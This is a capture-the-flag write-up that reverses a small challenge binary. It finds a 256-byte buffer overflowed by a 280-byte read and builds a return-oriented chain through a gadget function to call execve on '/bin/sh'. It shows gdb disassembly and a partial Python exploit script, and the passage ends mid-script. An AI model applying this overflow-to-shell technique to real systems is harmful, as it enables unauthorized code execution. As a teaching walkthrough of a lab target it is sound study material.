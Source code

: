 So I begun the reversing part but it was very fast because of the little size of the binary. The "_start" function call a function name "breakme". This "breakme" function did two syscall, the first one is "read" and the second one is "write". But there is an overflow at the "read" syscall because the binary try to read 280 bytes in a 256 bytes buffer. So we can overwrite RIP register at the 256th byte. A basic ROP should not be easy because of the binary size but I remember of 2 symbols I didn't saw yet in the binary, the function "fuckit" and the data "shell". Below is the disassembled code of fuckit:<pre><code class="x86asm">gdb-peda$ disas fuckit 
Dump of assembler code for function fuckit:
   0x00000000004000fa &lt;+0&gt;:	movabs rdi,0x600114
   0x0000000000400104 &lt;+10&gt;:	push   0x0
   0x0000000000400106 &lt;+12&gt;:	push   rdi
   0x0000000000400107 &lt;+13&gt;:	mov    rsi,rsp
   0x000000000040010a &lt;+16&gt;:	lea    rdx,[rsi+0x8]
   0x000000000040010e &lt;+20&gt;:	pop    rax
   0x000000000040010f &lt;+21&gt;:	pop    rax
   0x0000000000400110 &lt;+22&gt;:	pop    rax
   0x0000000000400111 &lt;+23&gt;:	ret    
End of assembler dump.</code></pre>
First, this function move a value in RDI register. It seems to contain the "shell" address we've saw in the "nm" output. Lets display it:<pre><code class="bash">$ gdb ./basicrop -q
Reading symbols from ./basicrop...(no debugging symbols found)...done.

gdb-peda$ br _start
Breakpoint 1 at 0x4000b0

gdb-peda$ r
...
Breakpoint 1, 0x00000000004000b0 in _start ()

gdb-peda$ x/s 0x600114
0x600114:	"/bin/sh"</code></pre>

Nice, thanks to this string, we can easily execute a shell! So the "fuckit" function is very easy. It move the strings "/bin/sh" into the RDI register, then push 0x0 and RDI on the stack, then move RSP into RSI, then load the address of RSI+0x8 (so RSP+0x8) and then pop 3 times a value into RAX. Our goal will be to do an "execve" syscall with the good argument/syscall number. Our register will look like that: 

RAX = 0x3b (59)
RDI = "/bin/sh"
RSI = "/bin/sh"
RDX = 0x0

RDI/RSI/RDX are set to the good value but we have to set RAX. In the "fuckit" function we can see 3 "pop". The first and the second one will pop the RDI value and 0x0, the two value pushed just before. But we can control the last one so we will add the value 0x3b (59) on the stack to poped it in RAX. Then we need to do the syscall. To do it we will jump into one of the two syscall instructions in the "breakme" function. I choose the first one.

The exploit will look like that:<pre><code class="python">#!/usr/bin/env python

import struct

fuckit_addr=struct.pack("&lt;Q", 0x00000000004000fa)	 # Fuckit function address
execve=struct.pack("&lt;Q", 0x3b)			            # Execve syscall number
syscall_addr=struct.pack("&lt;Q", 0x00000000004000dd)    # Syscall instruction address
padding="A"*256						               # Padding before overflow
